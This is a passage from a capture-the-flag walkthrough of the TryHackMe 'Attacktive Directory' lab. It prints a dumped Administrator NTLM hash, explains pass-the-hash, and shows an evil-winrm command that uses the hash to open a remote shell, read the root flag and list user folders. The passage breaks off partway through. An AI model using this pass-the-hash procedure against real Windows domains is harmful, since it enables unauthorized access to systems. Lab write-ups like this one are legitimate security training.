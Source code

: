`DRSUAPI`

2. What is the Administrators NTLM hash?

`Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::`

`0e0363213e37b94221497260b0bcb4fc`

3. What method of attack could allow us to authenticate as the user without the password?

`pass the hash`

4. Using a tool called Evil-WinRM what option will allow us to use a hash?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ evil-winrm -i 10.10.225.245 -u administrator -H 0e0363213e37b94221497260b0bcb4fc

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

`-H`

## Task 8 Flags

Submit the flags for each user account. They can be located on each user's desktop.

If you enjoyed this box, you may also enjoy my [blog post](https://blog.spookysec.net/kerberos-abuse/)!

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  11:39 AM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
TryHackMe{4ctiveD1rectoryM4st3r}
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cd ..\..\
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/17/2020   4:04 PM                a-spooks
d-----        9/17/2020   4:02 PM                Administrator
d-----         4/4/2020  12:19 PM                backup
d-----         4/4/2020   1:07 PM                backup.THM-AD
d-r---         4/4/2020  11:19 AM                Public
d-----         4/4/2020  12:18 PM                svc-admin


*Evil-WinRM* PS C:\Users> dir svc-admin\Desktop

```
